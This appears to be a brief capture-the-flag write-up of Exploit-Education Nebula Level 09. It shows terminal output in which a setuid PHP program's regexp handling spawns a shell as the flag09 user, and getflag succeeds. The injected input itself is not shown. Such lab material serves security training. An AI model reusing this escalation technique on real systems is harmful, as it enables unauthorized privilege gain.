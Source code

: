 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 09"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---   
```

### [Exploit Education Level 9](https://exploit.education/nebula/level-09/)

## Challenge
level09@nebula:~$ /home/flag09/flag09 arg2
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
